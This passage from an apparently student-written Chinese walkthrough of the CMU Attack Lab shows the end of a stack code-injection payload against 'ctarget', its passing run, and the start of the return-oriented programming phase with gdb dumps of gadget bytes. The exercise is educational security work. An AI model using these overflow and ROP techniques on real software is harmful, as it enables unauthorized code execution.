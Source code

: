 ```
81 dc 61 55 /* 返回地址覆写为0x5561dc81  %rsp+9 */
```
故技重施就成功了!
```shell
$ ./ctarget -qi Phase3-raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 00 48 C7 C7 78 DC 61 55 49 C7 C0 FA 18 40 00 48 83 EC 30 41 FF D0 FF FF FF FF FF FF FF FF FF FF 81 DC 61 55
```
这里我踩了一个坑.一开始我没有 `sub    $0x30,%rsp` 导致cookie字符串被覆写了,因为执行返回地址前栈底指针向上移动40字节,加上返回地址似乎pop了,所以栈底指针其实在0x5561dc78+0x28+0x8处.为了避免覆写我的cookie,应先将栈底指针减去48字节再调用 `call touch3`.

# rtaget:Return-Oriented Programming
为了应对以上ctarget的攻击方式,操作系统采用了栈随机化技术和将栈内存标记为不可执行.虽然不能自己注入代码了,但是现有的代码是可以执行的.这就是面向返回的编程(ROP).
ROP的策略是在现有程序的字节序列中抽取指令(以 `0xc3   /* ret */`结尾),被称为gadget.
farm.c文件为我提供了这些可用的指令集,称为gadget farm.在rtarget中,gadget farm以 `start_farm`函数起始,以 `end_farm`函数结尾.我在gdb中,首先分别找到了这两个函数所在的地址:
```shell
(gdb) disassemble start_farm
Dump of assembler code for function start_farm:
   0x0000000000401994 <+0>:     mov    $0x1,%eax
   0x0000000000401999 <+5>:     ret
End of assembler dump.
(gdb) disass end_farm
Dump of assembler code for function end_farm:
   0x0000000000401ab2 <+0>:     mov    $0x1,%eax
   0x0000000000401ab7 <+5>:     ret
End of assembler dump.
```
然后显示这两个地址之间内存的字节
```shell
(gdb) disass /r 0x401994,0x401ab7
Dump of assembler code from 0x401994 to 0x401ab7:
   0x0000000000401994 <start_farm+0>:   b8 01 00 00 00          mov    $0x1,%eax
   0x0000000000401999 <start_farm+5>:   c3                      ret
   0x000000000040199a <getval_142+0>:   b8 fb 78 90 90          mov    $0x909078fb,%eax
   0x000000000040199f <getval_142+5>:   c3                      ret
   0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
   0x00000000004019a6 <addval_273+6>:   c3                      ret
   0x00000000004019a7 <addval_219+0>:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
   0x00000000004019ad <addval_219+6>:   c3                      ret
   0x00000000004019ae <setval_237+0>:   c7 07 48 89 c7 c7       movl   $0xc7c78948,(%rdi)
   0x00000000004019b4 <setval_237+6>:   c3                      ret
   0x00000000004019b5 <setval_424+0>:   c7 07 54 c2 58 92       movl   $0x9258c254,(%rdi)
   0x00000000004019bb <setval_424+6>:   c3                      ret
   0x00000000004019bc <setval_470+0>:   c7 07 63 48 8d c7       movl   $0xc78d4863,(%rdi)
   0x00000000004019c2 <setval_470+6>:   c3                      ret
   0x00000000004019c3 <setval_426+0>:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
   0x00000000004019c9 <setval_426+6>:   c3                      ret
   0x00000000004019ca <getval_280+0>:   b8 29 58 90 c3          mov    $0xc3905829,%eax
   0x00000000004019cf <getval_280+5>:   c3                      ret
   0x00000000004019d0 <mid_farm+0>:     b8 01 00 00 00          mov    $0x1,%eax
   0x00000000004019d5 <mid_farm+5>:     c3                      ret
   0x00000000004019d6 <add_xy+0>:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   0x00000000004019da <add_xy+4>:       c3                      ret
   0x00000000004019db <getval_481+0>:   b8 5c 89 c2 90          mov    $0x90c2895c,%eax
   0x00000000004019e0 <getval_481+5>:   c3                      ret
```